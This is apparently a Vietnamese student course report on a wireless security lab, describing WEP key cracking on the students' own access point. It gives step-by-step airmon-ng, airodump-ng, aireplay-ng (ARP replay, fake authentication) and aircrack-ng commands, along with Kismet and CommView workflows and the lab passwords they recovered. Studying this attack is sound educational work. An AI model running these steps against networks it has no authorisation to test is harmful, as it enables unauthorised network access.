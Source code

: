 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: WEP Cracking**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **I. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Máy attacker hệ điêu hành kali 20201b
#### **II. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **III. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I. Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```\
Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
```airodump-ng wlan0mon```\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon```\
Bước 5: Bắt các IV được sinh ra từ Access point\
```airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon```\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon```\
Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon```\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng [tên file capture đã bắt ở trên]```\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image004.png)

Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)

Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
```airodump-ng wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image006.png)

Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image007.png)

Bước 5: Bắt các IV được sinh ra từ Access point\
```airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image008.png)

Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image009.png)

Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image010.png)

Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng WEPcrack-01.cap```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image011.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image012.png)

* ==> tìm được key : _*KietKhe.@/;\
**Làm tương tự với 3 trường hợp còn lại:**\

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image013.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image014.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image015.png)

#### **II. Sử dụng công cụ kismet và aircrack-ng để tìm password**
* Bước 1: Vào file **/etc/kismet/kismet_logging.conf** sửa file:

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/fileCauHinh.png)

* Bước 2: Bật chế độ monitor
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)

* Bước 3: Chạy kismet và một lúc để bắt đủ số lượng gói tin
```sudo kismet -c wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/Screenshot_2020-06-30_10-34-02.png)

* Bước 4: Chuyển file pcapng thành pcap bằng wireshark ( Mở file pcapng lên bằng wireshark và lưu lại thành file pcap)
* Bước 5: Dùng aircrack-ng để tìm password
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/ap.png)

![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/PASS.png)

#### **III. Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image016.png)

Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image017.png)

Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image018.png)

Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image019.png)

Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image020.png)

Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image021.png)

Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] 

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image022.png)

==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại**

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image023.png)

